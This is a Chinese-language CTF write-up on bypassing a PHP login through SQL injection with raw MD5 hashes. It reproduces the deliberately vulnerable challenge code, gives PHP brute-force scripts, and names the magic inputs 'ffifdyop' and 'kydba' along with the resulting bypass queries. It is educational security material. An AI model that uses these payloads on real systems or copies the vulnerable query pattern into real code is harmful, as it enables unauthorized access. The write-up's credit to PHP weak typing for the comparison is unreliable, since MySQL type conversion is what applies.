 ```yaml
---
title: MD5哈希注入
date: 2020-04-15
image: 
description: 
categories: 
- ctf_writeup
tags:
- SQLi
---
```

在网上看到一道CTF题目：https://ctf.show/challenges#web9

打开后扫目录发现robots.txt，里面提示了index.phps，下载，审计，发现MD5哈希注入：

```
<?php
    $flag="";
    $password=$_POST['password'];
    if(strlen($password)>10){
      die("password error");
    }
    $sql="select * from user where username ='admin' and password ='".md5($password,true)."'";
    $result=mysqli_query($con,$sql);
    if(mysqli_num_rows($result)>0){
        while($row=mysqli_fetch_assoc($result)){
           echo "登陆成功<br>";
           echo $flag;
        }
    }
?>
```

问题出在第7行`md5($password,true)`，密码使用了 md5 以二进制形式加密后进行在数据库中进行查询，若查询到了数据，就返回成功。

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120165922.png)

 

第一种方法是将加密后的密码构造出类似 ' or '1' 的形式

```
<?php

    $v = 'a';

    $payload2 = "'or'";
    while(1){
        $hash = hash("md5",$v,true);
        if(substr_count($hash, $payload2) == 1){
            die($v);     
        }
        $v++;
    }

?>
```

这是网上的脚本不过我倒是没跑出来。。。

这里 `$v++` 其实是按照 ascii 字符进行后移的；

最后可以得到一个结果 `ffifdyop`，（还有一个是`129581926211651571912466741651878684928`）

将这个加密回去试试，看到确实是`'or'`的形式

那么只要我们随意输入一个用户名，密码为 `ffifdyop` 那么这样我们的语句就变成了：

```
select * from users where user = 'admin' and password = ''or'6蒥欓!r,b'
```

这样就可成功绕过判断。

 

还有一个构造的方法是构造 `'='` 的形式，也就是

```
select * from users where user = 'admin' and password = ''=''
```

为什么这样构造可以呢？因为 `password = ''=''` 中，先判断 `password =''` ，这个肯定是返回 0 的，因为 password 中没有`''`这个字段值，前面返回 0 以后，再和后面的等号做比较：`0 = ''`

因为后面的根据 php 的弱类型进行判断，0 和字符串比较始终返回 1

所以整个 sql 语句就相当于：

```
select * from users where user = 'admin' and 1
```

所以与上面的 'or' 不同的是，这个需要传入一个存在的用户名才可以正常绕过：

```
//by wh1sper
<?php

$v = 'a';

//die(md5('kydba',true));

$payload2 = "'='";
while(1){
    $hash = hash("md5",$v,true);
    if(preg_match("/^$payload2/i", $hash)){
        die($v);
    }
    $v++;
}
```

得到结果是`kydba`，加密回去是`'='NJ��s��5�z��@`

flag{9e92802a-684e-4115-bbe8-f3fdbbf71339}